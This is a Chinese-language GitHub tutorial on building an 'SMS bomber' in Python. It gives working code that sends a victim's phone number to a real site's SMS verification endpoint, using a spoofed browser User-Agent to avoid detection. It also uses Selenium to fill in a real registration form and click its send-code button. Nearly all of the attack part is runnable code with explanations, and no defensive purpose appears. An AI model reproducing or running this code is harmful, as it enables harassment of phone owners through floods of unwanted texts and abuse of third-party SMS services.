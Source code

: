 # 短信轰炸程序常见的两种技术解析

该教程以Python为例介绍了两种常用的短信轰炸方式

## 方法一：调用网站的短信接口

该方法的本质是调用了网站发送短信的接口，模拟了一个HTTP请求（即模拟一个post或者一个get请求）

### 示范代码如下

~~~python
import requests

headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}
def iask(phone_number):
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)
    print("iask网站",response.text)
~~~

### 1、准备requests包

pip命令下载所需的requests包

~~~python
pip install requests
~~~

### 2、代码解析

#### （1）第一段代码解析

~~~python
import requests #导入所需要的包

 #构造一个报文头假装自己是一个浏览器
 #User-Agnet是用户代理的意思
 #Python3.5的User-Agent是Python-urllib/3.5，我们要修改这个变量，以免服务器发现我们是一个Python程序
 #具体数据我们从浏览器抄写一手
headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}

~~~

#### （2）第二段代码解析

**找接口（以爱问知识网为例）**<br/>
网址如下：<https://iask.sina.com.cn>

**我们模拟注册过程**<br/>
![我们模拟注册过程](./imgfile/1.png)<br/>

**寻找所需的数据**<br/>
![寻找所需的数据](./imgfile/2.png)<br/>
![寻找所需的数据](./imgfile/3.png)<br/>
![寻找所需的数据](./imgfile/4.png)<br/>
**根据信息，构造自己的HTTP报文，模拟注册**

~~~python
def iask(phone_number):
    #这是我们刚才找到的表单数据
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    #刚才我们发现请求时post请求，所以我们试用requests.post方法
    #把我们刚才造好的headers和data放入请求中
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)

    #得到一个返回值，可以查看是否成功
    print("iask网站",response.text)
~~~

## 方法二：模拟点击

**为什么我们要通过模拟点击的方法实现一个短信轰炸？**

因为很多网站发送的报文信息都是加密的，我们不知道他们的加密方式，所以我们没法模拟一个post或者git请求，或者发送的报文信息过于复杂，我们难以构造

### 示范代码如下

~~~python
from selenium import webdriver
def wangke(phone_number):
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()
    browser.close()
~~~

### 1、准备环境

#### （1）下载selenium包

~~~python
pip install selenium
~~~

#### （2）下载浏览器的驱动（以Eege为例）

* Edge驱动下载地址，根据自己的浏览器下载所需的驱动
驱动下载地址：<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

* 解压到一个合适的位置，我们一会通过绝对路径的方式引用该驱动

* 还有一种更便捷的方法，我们可以将驱动程序msedgedriver.exe改名为MicrosoftWebDriver.exe，并将此文件放在Python的安装路径下，就可以不用添加路径

### 2、代码解析

#### （1）第一段代码解析

~~~python
 #导入我们所需要的包selenium
from selenium import webdriver

def wangke(phone_number):
    #根据绝对路径导入驱动
    #也可以配置环境变量的方式，这里以绝对路径演示
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')

    #网站的网址
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)

    #定位输入手机号的位置，并输入手机号
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)

    #定位发送验证码按钮，点击按钮
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()

    #关闭浏览器
    browser.close()
~~~

#### (2)定位方法解析（需要基本的HTML基础知识）

* 定位按钮<br/>
![定位按钮](./imgfile/5.png)<br/>

* 定位手机号输入框<br/>
![定位手机号输入框](./imgfile/6.png)<br/>

* 定位发送验证码按钮<br/>
![定位发送验证码按钮](./imgfile/7.png)
